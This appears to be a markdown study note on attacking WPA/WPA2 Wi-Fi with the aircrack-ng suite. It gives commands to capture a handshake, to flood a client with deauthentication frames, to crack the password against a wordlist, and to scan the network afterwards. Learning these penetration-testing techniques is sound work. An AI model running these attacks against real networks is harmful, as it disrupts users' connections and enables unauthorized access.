 **WEP and WPA / WPA2** are the two common encryptions.

#### WEP
Is old technique and less secure. https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy

#### WPA & WPA2
https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access

When a client connects with a router with a password authentication a four-way handshake happens. If we give a right password then the handshake gives us a acknowledgement packets saying yes authenticated.

From a wordlist we can scan through a huge list of common passwords and make a handshake until we find the password

##### Capturing Handshake

```sh
airodump-ng --channel <channel-of-router> --bssid <MAC-of-Router> --write <Filename> wlan0
```

Keep the above command running and then run the below command to deauthenticate one of the connected device of the router.

```sh
aireplay-ng --deauth 10000 -a <MAC-of-router> -c <MAC-of_device> wlan0
```

Below image shows that the WPA handshake is captured.

![](./Images/network_sniffing_3.png)

**Why are we doing this?**
Because we want to capture handshake of packets. When I deauthenticate a device, the device will auto retry to connect the router network so a handshake will be made.

##### Creating a wordlist

One option is using crunch command to generate passwords https://www.kali.org/tools/crunch/.

Another is there is a folder with common wordlists in kali Linux at `/usr/share/wordlists` location.

To start cracking the password run the below command (this might take time)

```sh
aircrack-ng <path-to-the-cap-file-from-airedump> -w <path-to-the-wordlist>
```

### Post Wireless Network Attacks

#### NetDiscover

```sh
netdiscover -i eth0 -r 10.0.2.0/24 -c 10
```
